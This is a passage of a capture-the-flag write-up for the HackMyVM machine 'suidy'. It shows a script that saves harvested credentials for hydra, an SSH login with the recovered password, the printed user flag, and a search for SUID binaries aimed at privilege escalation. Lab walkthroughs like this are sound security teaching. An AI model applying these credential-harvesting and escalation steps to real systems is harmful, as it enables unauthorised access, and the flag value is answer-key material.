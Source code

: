 ```python
    print(cred)

# Save to files for hydra
with open("users.txt", "w") as f_users:
    for user in sorted(list(set(users))): # Write unique users
        f_users.write(user + "\n")

with open("passwords.txt", "w") as f_passwords:
    for password in sorted(list(set(passwords))): # Write unique passwords
        f_passwords.write(password + "\n")

```

Running this script extracted several username/password pairs. The most promising one, based on the hint "theuser/thepass", was `theuser/thepass`.

### 3. Gaining User Shell (SSH)

I attempted to SSH into the machine using the `theuser` credentials.

```shellscript
┌──(zengla㉿kali)-[~/Desktop/hackmyvm/suidy]
└─$ ssh theuser@192.168.1.103
theuser@192.168.1.103's password: thepass
Linux suidy 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64
# ... (truncated output) ...
theuser@suidy:~$ ls
user.txt
theuser@suidy:~$ cat user.txt
HMV2353IVI
```

I successfully gained an SSH shell as `theuser` and found `user.txt`, which contained the first flag: `HMV2353IVI`.

### 4. Privilege Escalation to `suidy`

As `theuser`, I checked for SUID binaries:

```shellscript
theuser@suidy:~$ find / -perm -4000 2> /dev/null
/home/suidy/suidyyyyy
/usr/bin/su
# ... (other common SUID binaries) ...
```

I found `/home/suidy/suidyyyyy` with SUID permissions. I also checked its permissions:

```shellscript
theuser@suidy:~$ ls -la /home/suidy/suidyyyyy
-rwsrwsr-x 1 root theuser 16704 sep 26  2020 /home/suidy/suidyyyyy
```

The binary `suidyyyyy` is owned by `root` and has SUID and SGID bits set, meaning it will run with the effective UID of `root` and effective GID of `theuser`.
